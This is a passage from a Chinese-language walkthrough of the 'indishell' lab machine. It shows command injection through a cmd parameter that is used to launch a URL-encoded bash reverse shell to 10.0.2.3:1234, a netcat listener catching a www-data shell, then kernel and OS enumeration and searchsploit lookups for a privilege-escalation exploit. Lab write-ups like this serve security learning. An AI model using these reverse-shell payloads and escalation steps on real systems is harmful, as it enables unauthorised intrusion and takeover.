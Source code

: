 发现 response 中真的执行了 `ls` 指令，于是我们可以 Getshell，把 cmd 参数设置为 `cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.0.2.3/1234+0>%261"` （获取反向 Shell 的指令进行 URL 编码）

```shell
> nc -lvp 1234 
listening on [any] 1234 ...
10.0.2.5: inverse host lookup failed: Unknown host
connect to [10.0.2.3] from (UNKNOWN) [10.0.2.5] 45714
bash: no job control in this shell
www-data@indishell:/var/www$
```

成功获得了 www-data 低权限用户，这里我考虑换一种提权方式：内核提权

> 其实 phpinfo 页面已经有了这些信息，我忘记了

```yacas
www-data@indishell:$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 12.04.5 LTS
Release:        12.04
Codename:       precise

www-data@indishell:/var$ uname -a
uname -a
Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
```

获取版本为 Ubuntu 12.04.5 LTS，内核为 Linux 3.13.0，`searchsploit` 搜一下：

```yacas
> searchsploit Ubuntu 12.04.5        ✔  23:55:11   
-------------------------------- ---------------------------------
 Exploit Title                  |  Path
-------------------------------- ---------------------------------
Ubuntu < 15.10 - PT Chown Arbit | linux/local/41760.txt
-------------------------------- ---------------------------------
Shellcodes: No Results

> searchsploit Linux 3.13.0 
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
// 删掉了一些不太相关的搜索结果
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Loca | solaris/local/15962.c
Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privil | linux/local/50135.c
Linux Kernel 3.11 < 4.8 0 - 'SO_SNDBUFFORCE' / 'SO_ | linux/local/41995.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.1 | linux/local/37292.c			// choose this
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.1 | linux/local/37293.txt
Linux Kernel 3.14-rc1 < 3.15-rc4 (x64) - Raw Mode P | linux_x86-64/local/33516.c
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.04/13.10 x64)  | linux_x86-64/local/31347.c
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.10) - 'CONFIG_ | linux/local/31346.c
Linux Kernel 3.4 < 3.13.2 - recvmmsg x32 compat (Po | linux/dos/31305.c
---------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
